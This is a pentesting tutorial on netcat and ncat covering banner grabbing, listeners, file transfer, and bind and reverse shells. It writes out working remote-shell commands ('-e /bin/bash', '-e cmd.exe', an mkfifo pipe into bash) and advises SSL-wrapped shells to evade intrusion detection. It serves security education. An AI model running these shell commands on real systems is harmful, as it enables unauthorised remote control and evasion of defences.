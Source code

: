 # Netcat - the hacker's swiss army knife

Is a tool that can read and write to TCP and UDP ports (can act as client or server).

Netcat is a tool used to:
* Check if port is open or close
* Read a banner from a port.
* To connect to a network service manually.

Netcat binary is present by default in Linux, Windows and MacOSX also if system administrators tend to remove it from the servers for obvious security reasons. 

## How to use netcat as client.
We have already scanned our target with nmap and we know that the following ports are open: 

```Nmap output
Nmap scan report for ************ (10.0.0.22)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
110/tcp  open  pop3
```
Let's try to connect to the port 110 

`netcat -nv 10.0.0.22 110`
```netcat output
(UNKNOWN)[10.0.0.22] 110 (pop3) open
+OK POP3 server lab ready 
```
In this case after the connection we got a welcome message from the server ( a "banner").

The parameters `-nv` used mean:
+ -n  I will give a numeric IP address and not an host address.  
+ -v  verbose mode. 

## How to use netcat as server (listener)

To listen with netcat on a TCP or UDP port we will set it up as server on our localhost and try to talk with it through another computer connected on the same network (or virtual machine).

`netcat -nlvp 444`
```output netcat server
listening on [any] 4444 ...
```
Explanation new parameters: 
+ -l listen mode (for inbound connections)
+ -p specify a port


We can connect to this port using the same command that we used before to use netcat as client from another machine.
I will use the address 10.0.0.22 as the server one.

`netcat -nv 10.0.0.22 4444`
```output ncat client
(UNKNOWN) [10.0.0.22] 4444 (?) open
I can write here and the server will be able to see ! 
Also, if I write in the server prompt the client will be able to see it ! 
Congratulation you created a chat ! 
```

## Transfer files with netcat 

Netcat can also be used to transfer file between a server and a client.

Set up the server that will receive:
`netcat -nlp 4444 > incoming.exe`

Set up the client that will send:
`netcat -n 10.0.0.22 4444 < file_to_transfer.exe`

Netcat will not give us any feedback, but the file will be in the specified folder. 
Check for file size matching before quitting the connection. 

## Remote administration with netcat
As we previously saw with netcat is possible to create a communication between a client and a server.
This textual exchange of messages can be used to do command redirection.
We can take an executable file and redirect the input, output, and error messages to a TCP/UDP port rather than the default console.
There are two tipes of connection that can be enstablished, and it's really important to understand when one rather than the other should be  used. 

### Bind shell 
A bind shell is enstablished when a server that has a public ip address opens a port to a client and binds a shell to that port.(fig.1)
So when the client connects to this public address on this port it will be welcomed with the server command prompt.

![bindshell](https://www.dropbox.com/s/ul38konoyhnx232/2017-12-01%2016.46.29.jpg?raw=1)

To create a bind shell the attacker should connect (as client) to the target (server).
The *target* will open a netcat session as server with a shell binded to it (es. from Windows):

`netcat -nlvp 4444 -e cmd.exe`

Parameters:
+ -e  execute

The *attacker* will then connect to the server and get command prompt access:
a.b.c.d is the public IP address of the server.
`# netcat -nv a.b.c.d 4444`
From now on, everything written on the attacker computer will be sent to cmd.exe on the target computer and the output redirected back to the attacker.



### Reverse shell

![reverseshell](https://www.dropbox.com/s/8uvared7qrkz9dv/2017-12-01%2017.02.28.jpg?raw=1)

To create a reverse shell the attacker is the server and the target will connect to it as client.
The *attacker* will create a server.
`netcat -nlvp 4444`

The *target* will connect to the server and bind a shell to the opne TCP port (es. from Linux):
a.b.c.d is the public IP address of the server 
`netcat -nv a.b.c.d -e /bin/bash`

### Conclusions.
Which type of connection should I use? 
If you are on a LAN, both method will work just fine. 
In a real scenario the computer to attack will be positioned inside a private network and the attacker will not be able to connect to it because some kind of firewall will block the incoming connection to that port ! 
Usually firewalls block incoming connection and not outgoing connections, this is why we should use a reverse shell.
A *reverse shell* allows to the target to connect to us (and we should have control on our router firewall) through our public IP. 

### Others infoz.
There are versions of netcat that don't have -e or -c options. 

A binding shell can be enstablished in this way:

* Server side: 
`rm -f /tmp/f; mkfifo /tmp/f`
`cat /tmp/f |/bin/bash -i 2>&1 |nc -l a.b.c.d PORT>/tmp/f `

* Client side:
`nc a.b.c.d PORT`


## ncat and encrypted link between a server and a client (SSL)
[ncat](https://nmap.org/ncat/) was written for the nmap project as a much-improved reimplementation of netcat.
Ncat is able to enstablish end-to-end encrypted connections between a client and a server (SSL), redirect TCP and UDP ports to other sites, proxy connections via SOCKS4 or HTTP proxies. 

### Use ncat with SSL to encrypt your bind or reverse shell.

Encryption of the bind or reverse shell will help the penetration tester in avoiding intrusion detection systems (IDS), and will allow to not expose penetrated machines to unwanted IPs. 

To set up a bind shell with SSL encryption: 

* SERVER
  `ncat --exec cmd.exe --allow 10.0.0.4 -vnl 4444 --ssl`

   options explained:
     + --exec used to specify the executable file (in this case a windows command prompt).
     + --allow specify the IP of the client that is allowed to connect with the server.
     + --ssl  activate ssl encryption of the connections. 

+ CLIENT
   `ncat -v 10.0.0.22 4444 --ssl`


Now all the data exchanged between the server and the client is protected by SSL (Secure Sockets Layer). 


### ncat - connect to an HHTPS website

`ncat -v --ssl google.com 443`

### ncat - forward a local port
ncat -vl 7777 -c `ncat remote_host 8080`

### ncat - connect through a proxy
`ncat --proxy proxy_server:port --proxy-type {socks4|http} remote_host port [--proxy-auth username:password ] 
(Proxies that return status code 407 require authentication)

### ncat - create an HHTP proxy
`ncat -vl --proxy-type http 7777 [--allow 123.45.67.89 --proxy-auth user:pass]`

### ncat - Configure access controls for listening sockets
```
ncat -vl 7777 {--allow|--deny}  remotehost
ncat -vl 7777 {--allow|--deny}  10.0.0.10
ncat -vl 7777 {--allow|--deny}  10.0.0.10,10.0.0.20
ncat -vl 7777 {--allow|--deny}  10.0.0.10-20
ncat -vl 7777 {--allow|--deny}  10.0.0.0/24
ncat -vl 7777 {--allow-file|--deny-file} hosts.txt
```

## BONUS

* [Netcat Cheatsheet](https://www.sans.org/security-resources/sec560/netcat_cheat_sheet_v1.pdf)
* [ncat user guide](https://nmap.org/ncat/guide/)
